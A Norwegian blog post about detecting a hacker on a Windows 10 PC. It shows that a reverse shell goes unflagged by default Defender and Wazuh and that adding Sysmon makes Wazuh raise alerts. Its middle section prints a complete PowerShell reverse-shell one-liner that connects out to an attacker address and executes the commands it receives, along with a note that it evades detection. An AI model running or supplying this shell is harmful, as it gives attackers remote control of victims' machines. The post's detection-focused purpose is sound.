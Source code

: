 ```yaml
---
tittel: Oppdage skurker i maskinen
beskrivelse: Skurkene har hacket en maskin på nettet. Hvordan kan vi oppdage dem?
tags: 
 - post
date: 2023-09-04
bilde: /img/nettverksrot.jpg
layout: layouts/post.njk
---
```

# En Windows-PC blir hacket
Scenario: en hacker har overbevist en medarbeider om å kjøre et script i Powershell. Dette gir hackeren et 
reversskall, altså et kommandolinjevindo til å direkte kontrollere maskinen. Hackeren benytter muligheten til å 
legge inn oppstart av reversskallet som en planlagt oppgave i Windows (Schtasks) som kjører hver gang 
maskinen starter opp. 

Hvordan kan vi oppdage dette? Et godt antivirusprogram skulle man jo tro skulle blokkere dette, men 
det er fullt mulig å få til dette uten at det oppdages. Dersom, for eksempel, Windows PC-en 
kjører Windows 10 med innebygd Windows Defender som sikkerhetsløsning, blir følgende reversskall 
for eksempel ikke detektert: 

```
$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Dette ble testet på en Win10-maskin som kjører på Amazon Workspaces, og monitorert med en 
Wazuh-agent uten endringer i konfigurasjon fra standard. 

## Enkel forbedring
Ved ganske enkelt å installere [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) med
konfig-fila fra [SwiftOnSecurity](https://github.com/SwiftOnSecurity/sysmon-config), blir situasjonen 
en annen. Wazuh fyrer opp med alerts, og vi oppdager hva skurkene har fore. 

![Alarmer etter sysmon ble installert](/img/alerts_after_sysmon.png)

## Take-away
- Ikke stol på sikkerhetsverktøy uten å teste og tilpasse dem
- Bruk verktøy som øker synligheten av mistenkelig aktivitet
- Tenk gjennom hvilke ekstra deteksjoner du har bruk for
